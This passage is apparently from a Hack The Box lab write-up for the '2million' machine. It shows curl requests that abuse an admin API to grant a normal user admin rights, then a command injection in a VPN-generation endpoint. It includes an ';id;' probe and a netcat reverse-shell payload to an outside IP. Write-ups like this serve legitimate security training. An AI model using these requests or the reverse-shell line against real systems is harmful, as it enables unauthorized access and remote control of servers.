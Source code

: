 ```bash
curl -X PUT 2million.htb/api/v1/admin/settings/update -H 'Cookie: PHPSESSID=s9jrounrs12glo29i8u856rib8' -H 'Content-Type: application/json'
```

> In order to use `cURL` as a newly created user, we can grab the session cookie that our browser is supplying the website to prove we're still logged in. Then add that cookie to a `curl` request by using `-H 'Cookie: PHPSESSID={yourcookie}'`

We receive the following response:

```
{"status":"danger","message":"Missing parameter: email"}
```

Hmm, It's asking us for the user email. It actually looks like this API endpoint for making a user an admin, can be operated by a non-admin. Let's supply the email

```bash
curl 2million.htb/api/v1/admin/settings/update -H 'Cookie: PHPSESSID=s9jrounrs12glo29i8u856rib8' -v -X PUT -H 'Content-Type: application/json' -d '{"email":"test1234@test.com"}'
```

It then tells us it needs a `is_admin` value, so let's supply that too. Trying some different variations of `True`, `true` and finally `1` gets us a positive response:

```bash
curl 2million.htb/api/v1/admin/settings/update -H 'Cookie: PHPSESSID=s9jrounrs12glo29i8u856rib8' -v -X PUT -H 'Content-Type: application/json' -d '{"email":"test1234@test.com", "is_admin":1}'
```

```bash
{"id":16,"username":"test1234","is_admin":1}
```

Nice! We can now even use the `/api/v1/admin/auth` to verify this. Now, let's see if our assumptions about the command injection were correct.

## Initial foothold
Let's make a request to `/admin/vpn/generate` to see what happens. The response we get is `{"status":"danger","message":"Missing parameter: username"}`. Okay, let's add a username with `-d '{"username":"test1234"}'`. The server ends up sending us an OpenVPN file as expected. Now that we know how to generate such a request, let's see if we can tweak it in order to inject some command in there. To reiterate; we suspect that the parsing of the `username` field is not done safely and its contents might be put in some sort of `system()` command. We make the following request:

```bash
curl 2million.htb/api/v1/admin/vpn/generate -H 'Cookie: PHPSESSID=hvhiclnfmtpgtacqfi5djt31bc' -v -X POST -H 'Content-Type: application/json' -d '{"username":";id;"}'
```

And indeed the response we get is `uid=33(www-data) gid=33(www-data) groups=33(www-data)`, meaning the `id` command was successfully run on the server. Let's use a reverse shell command to get a shell as this `www-data` user going: `{"username":";rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.15.100 1234 >/tmp/f;"}`. Of course, make sure we first have something listening on our machine to catch the shell with `nc -lvnp 1234`

Let's take a look in the `/home` folder for any users, since that's where HTB flags are often located. We find just one user with a home directory, called `admin`. Of course, it seems we'll need their credentials in order to access the `user.txt` file. Let's take a look around this `www-data` users folder that we landed in. 

